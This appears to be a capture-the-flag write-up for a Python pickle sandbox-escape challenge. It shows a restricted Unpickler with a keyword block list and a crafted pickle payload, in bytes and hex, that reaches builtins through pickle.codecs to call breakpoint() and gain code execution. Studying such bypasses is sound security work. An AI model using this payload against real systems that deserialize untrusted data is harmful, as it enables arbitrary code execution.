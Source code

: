 # breaking in the jail

## challenge

```py
import pickle
from io import BytesIO

class SecureUnpicklerFor1337Haxx0rsOnly(pickle.Unpickler):
    def find_class(self, module: str, name: str) -> object:
        if module != '__main__':
            return "1m4o n0p3"

        if any(x in name for x in ['ex', 'ev', 'system', 'break', 'help', 'load', 'npickle']):
            return "t00 d4ng3r0u5"

        return super().find_class(module, name)

if __name__ == '__main__':
    data = bytes.fromhex(input('$ '))
    SecureUnpicklerFor1337Haxx0rsOnly(BytesIO(data)).load()
```

## solution

intended solution (from A~Z): `b'\x80\4c__main__\npickle.codecs.builtins.getattr\nc__main__\npickle.codecs.builtins\nVbreakpoint\n\x86R)R.'`

the pickle module is imported, so we can use that from `__main__`

the pickle module has dependencies, and these are attributes of the pickle module. if you are curious, the dependency tree is
`{'_compat_pickle': {}, 'codecs': {'builtins': {}, 'sys': {}}, 'io': {'_io': {}, 'abc': {}}, 're': {'_locale': {}, 'copyreg': {}, 'enum': {'sys': {}}, 'functools': {}, 'sre_compile': {'_sre': {}, 'sre_parse': {}}, 'sre_parse': {}}, 'sys': {}}`

we can get to builtins by using codecs, so `pickle.codecs.builtins`. we can use the getattr from builtins to get breakpoint.

```
>>> from pickle import *
>>> (PROTO + b'\x04' + GLOBAL + b'__main__\npickle.codecs.builtins.getattr\n' + GLOBAL + b'__main__\npickle.codecs.builtins\n' + UNICODE + b'breakpoint\n' + TUPLE2 + REDUCE + EMPTY_TUPLE + REDUCE).hex()
'8004635f5f6d61696e5f5f0a7069636b6c652e636f646563732e6275696c74696e732e676574617474720a635f5f6d61696e5f5f0a7069636b6c652e636f646563732e6275696c74696e730a56627265616b706f696e740a86522952'
```
